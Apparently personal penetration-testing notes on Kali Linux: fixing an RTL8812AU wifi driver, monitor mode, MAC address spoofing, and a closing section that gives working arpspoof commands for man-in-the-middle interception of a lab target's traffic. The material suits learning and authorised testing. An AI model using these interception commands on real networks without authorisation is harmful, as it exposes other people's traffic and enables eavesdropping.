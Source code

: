 # Network Hacking

We use Kali Linux for penetration tests. It is also possible to use Ubuntu or other Linux distributions but we need to manually install many tools.

## 1. Install the driver for wireless network card

The RTL8812AU chipset requires a specific driver, and check if the driver is installed using the following command.

```bash
lsmod | grep 8812au
```

If the driver is not installed, install it with a simple `apt install realtek-rtl88xxau-dkms`.

```bash
sudo apt update
sudo apt install dkms build-essential linux-headers-$(uname -r) git

# Install the driver with this command. I almost spent 4 hours to find this line of command to make it work.
sudo apt install realtek-rtl88xxau-dkms

# The method below is recommended by many people but it does not work for the current version. The driver will make the wireless adaptor not able to show available networks.
git clone https://github.com/aircrack-ng/rtl8812au.git
cd rtl8812au
sudo make dkms_install
```

### Linux Header and system problems

The above command may fail due to linux-header problems for a newly installed kali linux.

```bash
apt search linux-header
# The version can be a problem, install the one that can be found.
sudo apt install linux-header-6.11.2
```

## 2. Connect to a wireless network normally

```bash
sudo iw dev wlan0 scan | grep SSID
sudo wpa_passphrase "Your_SSID" "Your_PASSWORD" > /etc/wpa_supplicant.conf
sudo wpa_supplicant -B -i wlan0 -c /etc/wpa_supplicant.conf
sudo dhclient wlan0
```

## 3. Normal Mode vs Monitor Mode

Monitor mode allows your interface to get packets that are not meant to be sent to you in the network.

```bash
# Kill the network
airmon-ng check kill

# Set the interface to monitor mode
sudo iw dev wlan0 set type monitor

# old way
# sudo iwconfig wlan0 mode monitor
```

## 4. Manually Set Mac Address & Mac Address Reset Error

Use the following commands to manually set the Mac Address for the wireless interface.

```bash
ip link show # check the wireless interface

sudo systemctl stop NetworkManager
sudo systemctl stop wpa_supplicant

sudo ip link set wlan0 down

# change the mode to monitor
sudo iw dev wlan0 set type monitor
# change the mac address: (1) has to be monitor mode; (2) other management program needs to be killed --- NetworkManager, wpa_supplicant
sudo ip link set dev wlan0 address 00:11:22:33:44:55
sudo ip link set wlan0 up

# check if the mode and MAC address is correct
sudo iw dev wlan0 info
```

The old way is to use `ifconfig`, no longer recommended.

> The recommended way is `ip` and `iw` command.

```bash
sudo ifconfig wlan0 down

sudo ifconfig wlan0 hw ether 00:11:22:33:44:55

sudo ifconfig wlan0 up
```

## Prevent MAC address from being reset

Add the following two lines at the end of `/etc/NetowrkManager/NetworkManager.conf` file to prevent the Network Manager from resetting MAC address.

```bash
[device]
wifi.scan-rand-mac-address=no

[connection]
wifi.cloned-mac-address=preserve
```

## Arp Spoofing

After gaining access to the network, we can target a machine and do ARP spoofing.

```bash
# enable port forwarding to make the target machine not sensible of us as a middle man.
sudo echo 1 > /proc/sys/net/ipv4/ip_forward
```

```bash
# run the following two commands at the same time to become a middleman.
sudo arpspoof -i eth0 -t 192.168.211.130 192.168.211.1
sudo arpspoof -i eth0 -t 192.168.211.1 192.168.211.130
```

In this way, all the traffic from the target machine will go through us.
